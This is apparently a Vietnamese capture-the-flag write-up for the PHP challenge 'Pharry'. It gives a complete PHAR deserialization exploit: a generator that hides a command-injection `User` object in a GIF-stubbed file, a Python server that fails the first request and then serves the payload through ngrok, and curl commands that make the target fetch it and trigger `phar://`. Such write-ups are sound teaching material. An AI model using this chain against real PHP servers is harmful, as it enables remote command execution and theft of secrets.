

# Pharry



## Phân tích source code

Code của challenge:

```php
<?php
class User {
    public $avatar_path;
    public $name;
    // who cares
    public $password;
    function __construct($name, $password) {
        $this->name = $name;
        $this->password = $password;
        $this->avatar_path = "avatars/".$name.".png";
        //todo fill the avatar with something meaningful
        system("touch ".$this->avatar_path);
    }
    function __destruct() {
        system("rm ".$this->avatar_path);
    }
}


$file = $_GET['path'];
$res = md5_file($file);
if ($res == FALSE){
    file_put_contents("/tmp/remote_file.jpg",file_get_contents($file));
    // everything is a image if you look at it long enough
    $res = md5_file("/tmp/remote_file.jpg");
}
if ($res == 0xdeadbeef){
    echo "Congratulations! Here is not your flag: ".file_get_contents("flag.txt");
} else{
    echo $res;
}
?>
```

Có hai vấn đề chính:

1. `md5_file($file)` có thể được gọi với đường dẫn do người dùng kiểm soát.
2. Class `User` có magic method `__destruct()` gọi `system()` trực tiếp với thuộc tính `$avatar_path`.

Nếu ta khiến PHP parse một file PHAR chứa metadata là object `User`, PHP sẽ unserialize metadata đó. Khi request kết thúc, object `User` bị hủy và `__destruct()` được gọi.

Nếu `$avatar_path` có giá trị chứa command injection, ví dụ:

```bash
x; cat /flag 2>/dev/null; env 2>/dev/null
```

thì câu lệnh thực tế sẽ thành:

```bash
rm x; cat /flag 2>/dev/null; env 2>/dev/null
```

Như vậy có thể đọc flag hoặc biến môi trường.

## Tạo payload PHAR

Tạo file `make_phar.php`:

```php
<?php
class User {
    public $avatar_path;
    public $name;
    public $password;
}

@unlink("payload.phar");
@unlink("payload.jpg");

$p = new Phar("payload.phar");
$p->startBuffering();

$p->addFromString("a.txt", "hello");
$p->setStub("GIF89a<?php __HALT_COMPILER(); ?>");

$u = new User();
$u->name = "hai";
$u->password = "hai";
$u->avatar_path = "x; cat /flag 2>/dev/null; env 2>/dev/null";

$p->setMetadata($u);
$p->stopBuffering();

rename("payload.phar", "payload.jpg");

echo "[+] created payload.jpg\n";
```

Run:

```bash
php -d phar.readonly=0 make_phar.php
```

Kết quả:

```text
-rwxrwxrwx 1 HieuND HieuND 252 Jun  6 09:23 payload.jpg
payload.jpg: GIF image data, version 89a, 16188 x 26736
```

File tuy có đuôi `.jpg`, nhưng bên trong là PHAR hợp lệ có stub GIF.

## Host payload

Do logic của app là:

```php
$res = md5_file($file);

if ($res == FALSE){
    file_put_contents("/tmp/remote_file.jpg", file_get_contents($file));
    $res = md5_file("/tmp/remote_file.jpg");
}
```

Ta cần làm cho request đầu tiên của `md5_file($url)` fail, sau đó request thứ hai của `file_get_contents($url)` trả về payload thật.

Tạo file `serve_payload.py`:

```python
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer
import socket

payload = open("payload.jpg", "rb").read()
counter = 0

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        global counter
        counter += 1
        print(f"[+] request #{counter} from {self.client_address}")

        if counter == 1:
            try:
                self.connection.shutdown(socket.SHUT_RDWR)
            except Exception:
                pass
            self.connection.close()
            return

        self.send_response(200)
        self.send_header("Content-Type", "image/jpeg")
        self.send_header("Content-Length", str(len(payload)))
        self.end_headers()
        self.wfile.write(payload)

HTTPServer(("0.0.0.0", 8000), Handler).serve_forever()
```

Chạy server:

```bash
python3 serve_payload.py
```

Public server bằng ngrok:

```bash
ngrok http 8000
```

## Ép target tải payload về `/tmp/remote_file.jpg`

Gửi request:

```bash
BASE='https://wok-tossed-pineapple-drizzled-with-torched-bread-mnee.gpn24.ctf.kitctf.de'
NGROK='https://lacey-nonorthodox-richard.ngrok-free.dev'

curl -s "$BASE/?path=$NGROK/payload.jpg"
```

Ở terminal Python server thấy 2 request:

```text
[+] request #1 from ('127.0.0.1', 39684)
[+] request #2 from ('127.0.0.1', 39698)
127.0.0.1 - - [07/Jun/2026 15:24:59] "GET /payload.jpg HTTP/1.1" 200 -
```

Điều này nghĩa là:

- Request đầu tiên từ `md5_file($url)` bị đóng connection để trả về `FALSE`.
- Request thứ hai từ `file_get_contents($url)` nhận payload thật.
- Payload được ghi vào `/tmp/remote_file.jpg` trên server target.

## Trigger PHAR deserialization

Sau khi payload đã nằm tại `/tmp/remote_file.jpg`, gọi lại endpoint với `phar://`:

```bash
curl -s "$BASE/?path=phar:///tmp/remote_file.jpg/a.txt"
```

Kết quả trả về:


## Flag

```text
GPNCTF{We8_i5_For_WeE85_aNd_5UCk5_PhP_Is_CO01_t0U6h}
```
